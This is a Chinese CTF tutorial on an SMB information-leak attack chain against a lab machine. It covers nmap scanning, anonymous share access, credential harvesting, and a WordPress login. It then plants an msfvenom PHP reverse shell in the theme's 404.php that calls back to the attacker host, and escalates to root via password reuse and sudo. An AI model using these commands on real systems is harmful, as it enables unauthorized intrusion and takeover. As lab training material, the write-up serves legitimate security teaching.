# CTF夺旗赛：P6：SMB信息泄露实战教程 🚩

在本节课中，我们将学习如何利用SMB（Server Message Block）协议的信息泄露漏洞，逐步获取目标主机的访问权限，最终提升至root权限并取得flag值。整个过程将涵盖信息收集、漏洞分析、权限获取与提升等核心环节。

---

## 什么是SMB协议？

上一节我们介绍了课程目标，本节中我们来看看SMB协议的基础知识。





SMB是Server Message Block的缩写。它是一个通信协议，由微软和英特尔公司在1987年制定，主要作为微软网络的通信协议。后来Linux系统移植了SMB协议，并将其改名为Samba。

SMB协议基于TCP/IP协议栈，通常使用的端口号是**139**和**445**。该协议用于访问网络上的共享资源，例如共享文件夹。开启SMB服务后，远程计算机可以通过该协议连接并下载共享资源。





以下是一个简单的网络拓扑示意图：一台计算机开放了SMB服务并设置了共享，另一台计算机可以通过网络连接并访问其资源。





---





## 实验环境搭建

在开始实战之前，我们需要明确实验环境。



*   **攻击机**：Kali Linux，IP地址为 `192.168.253.12`。
*   **靶机**：Linux系统，IP地址为 `192.168.253.17`。

我们的最终目标是获取靶机上的flag值。为此，我们需要首先对靶机进行信息探测，寻找可利用的弱点。



---



## 信息收集与探测

渗透测试的第一步是对目标进行信息收集，探测其开放的服务和潜在漏洞。



以下是使用Nmap工具进行扫描的步骤：

1.  **基础服务扫描**：使用 `-sV` 参数探测服务版本信息。
    ```bash
    nmap -sV 192.168.253.17
    ```
    此命令会向靶机发送数据包，并根据返回的信息分析开放的服务及其版本。





2.  **全面信息扫描**：使用 `-A` 参数进行更全面的探测，`-T4` 参数加快扫描速度。
    ```bash
    nmap -A -T4 192.168.253.17
    ```
    此命令会详细扫描操作系统、服务版本、脚本信息等，为后续分析提供丰富数据。

扫描完成后，我们需要分析结果。重点关注特殊端口（如80、443、22、3306）和本次课程的核心——**SMB服务端口（139/445）**。

在扫描结果中，我们发现靶机开放了139和445端口，运行着SMB服务，这为我们提供了潜在的突破口。

---





## SMB服务弱点分析

发现目标开放SMB服务后，我们可以尝试以下几种常见的利用方式。



以下是针对SMB服务的初步探测方法：



*   **空口令登录**：尝试使用空密码连接SMB共享，查看是否有未授权访问的共享目录。
*   **枚举共享列表**：使用 `smbclient` 列出靶机所有共享资源。
    ```bash
    smbclient -L //192.168.253.17
    ```
    执行后，输入空密码。如果成功，将返回共享列表，例如 `print$`（打印机共享）、`share`（文件共享）、`IPC$`（空链接）。

*   **访问共享目录**：尝试访问枚举出的共享。
    ```bash
    smbclient //192.168.253.17/share
    ```
    使用空密码登录 `share` 目录后，可以执行 `ls` 列出文件，并使用 `get` 命令下载敏感文件到本地分析。



通过访问 `share` 共享，我们下载并分析了一个名为 `deets.txt` 的文件，发现其中包含一个密码：`12345`。同时，在 `wordpress` 目录下找到了WordPress的配置文件 `wp-config.php`，从中获得了数据库用户名 `admin` 和密码。

---

## 利用泄露信息扩大战果

获取到凭据（用户名、密码）后，我们需要尝试在更多服务上使用它们。

以下是尝试登录其他服务的步骤：

1.  **尝试SSH登录**：使用获得的用户名和密码尝试SSH登录。
    ```bash
    ssh admin@192.168.253.17
    ```
    输入密码 `12345`，但登录失败。

2.  **尝试MySQL登录**：尝试远程登录MySQL数据库。
    ```bash
    mysql -h 192.168.253.17 -u admin -p
    ```
    输入从 `wp-config.php` 中获取的数据库密码，登录同样失败。

3.  **检查SMB漏洞**：使用 `searchsploit` 搜索靶机SMB服务版本是否存在已知的远程溢出漏洞。
    ```bash
    searchsploit SMB 3.0.20
    ```
    本例中未发现可直接利用的远程溢出漏洞。

---

## Web渗透与权限获取

当直接登录尝试失败时，我们转向Web应用层面。之前扫描发现靶机运行着WordPress。

以下是利用Web漏洞获取权限的流程：

1.  **目录扫描**：使用 `dirb` 工具扫描Web目录，寻找后台登录入口。
    ```bash
    dirb http://192.168.253.17
    ```
    发现了 `/wp-admin` 后台路径。

2.  **登录后台**：在浏览器中访问 `http://192.168.253.17/wp-admin`，使用之前获得的用户名 `admin` 和密码 `12345` 成功登录WordPress后台。



3.  **制作与上传WebShell**：
    *   使用 `msfvenom` 生成一个PHP反向Shell。
        ```bash
        msfvenom -p php/reverse_tcp LHOST=192.168.253.12 LPORT=4444 -f raw
        ```
    *   将生成的代码保存为 `webshell.php` 文件。
    *   在Metasploit中启动监听，准备接收反弹连接。
        ```bash
        msfconsole
        use exploit/multi/handler
        set payload php/reverse_tcp
        set LHOST 192.168.253.12
        set LPORT 4444
        run
        ```

4.  **植入WebShell**：在WordPress后台，通过编辑主题的 `404.php` 模板文件，将 `webshell.php` 的代码插入其中并保存。



5.  **触发WebShell**：访问特定的主题页面URL来触发WebShell代码，例如 `http://192.168.253.17/wp-content/themes/twentytwenty/404.php`。

6.  **获取Shell**：此时，Metasploit监听端成功接收到从靶机反弹回来的Shell连接，我们获得了 `www-data` 用户的权限。



---

## 权限提升与获取Flag



获得初始Shell后，通常权限较低，需要将其提升至root权限才能读取flag。

以下是权限提升与获取Flag的步骤：





1.  **优化Shell**：优化当前Shell的交互体验。
    ```bash
    python -c 'import pty; pty.spawn("/bin/bash")'
    ```

2.  **信息收集**：查看系统用户，寻找提权线索。
    ```bash
    cat /etc/passwd
    ```
    发现存在用户 `togie`。



3.  **切换用户**：尝试切换到 `togie` 用户，并使用之前发现的密码 `12345`。
    ```bash
    su togie
    ```
    密码正确，切换成功。





4.  **提权至Root**：检查 `togie` 用户的sudo权限，并尝试提权。
    ```bash
    sudo -l
    sudo su
    ```
    成功提升至root权限。



5.  **寻找Flag**：在根目录下寻找flag文件。
    ```bash
    cd /root
    ls
    cat flag.txt
    ```
    成功读取到最终的flag值。

---



## 课程总结 🎯

本节课中我们一起学习了完整的SMB信息泄露利用链：

1.  **信息收集**：使用Nmap扫描目标，发现开放的SMB服务（139/445端口）。
2.  **漏洞利用**：利用SMB空口令或弱口令访问共享目录，下载并分析敏感文件（如配置文件、文本文件），获取数据库密码、用户密码等关键信息。
3.  **横向移动**：尝试将获得的凭据用于SSH、MySQL等服务登录。
4.  **Web渗透**：当直接登录失败时，利用获取的凭据登录Web后台（如WordPress），通过编辑模板文件上传WebShell，获取反向连接。
5.  **权限提升**：在获得初始Shell后，通过系统信息收集、密码复用、sudo权限滥用等方式，将权限从普通用户提升至root用户。
6.  **获取Flag**：最终在root目录下找到并读取flag文件。



**核心要点**：对于开放139/445端口的机器，务必检查其SMB共享是否允许匿名访问或存在弱口令，共享目录中的文件往往是信息泄露的关键来源。同时，flag通常位于只有root权限可访问的路径下，因此提权是CTF挑战中不可或缺的一环。